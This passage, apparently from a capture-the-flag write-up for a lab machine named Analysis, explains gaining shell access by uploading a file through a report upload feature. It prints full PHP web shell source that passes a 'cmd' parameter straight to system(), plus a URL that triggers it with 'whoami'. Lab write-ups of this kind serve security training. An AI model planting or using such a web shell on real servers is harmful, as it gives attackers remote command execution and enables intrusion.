 **GAINING SHELL ACCESS**&#x20;

In SOC Report Upload php webshell code.

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

```
┌──(Batman㉿GC)-[~/Analysis]
└─$ cat webshell.php          
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

Once you uploaded the file you can check it by&#x20;

```
http://internal.analysis.htb/dashboard/uploads/webshell.php?cmd=whoami
```
